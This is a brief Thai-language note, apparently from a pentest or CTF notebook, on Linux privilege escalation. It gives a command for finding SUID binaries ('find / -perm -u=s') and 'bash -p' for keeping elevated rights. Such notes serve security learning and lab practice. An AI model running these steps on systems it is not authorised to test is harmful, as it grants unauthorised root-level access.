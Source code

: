 #privesc 
# Step
1. หาไฟล์ที่มี s ซึ่งแปลว่าตั้งค่าสิทธิ์แบบ SUID bit ไว้ ถ้าเปิดได้จะได้ สิทธิ์ของคนสร้างไฟล์นั้น
```bash
find / -perm -u=s -type f 2>/dev/null
```
2. ลองเปิดที่ find ได้ไปเรื่อยๆ
```bash
bash -p
```
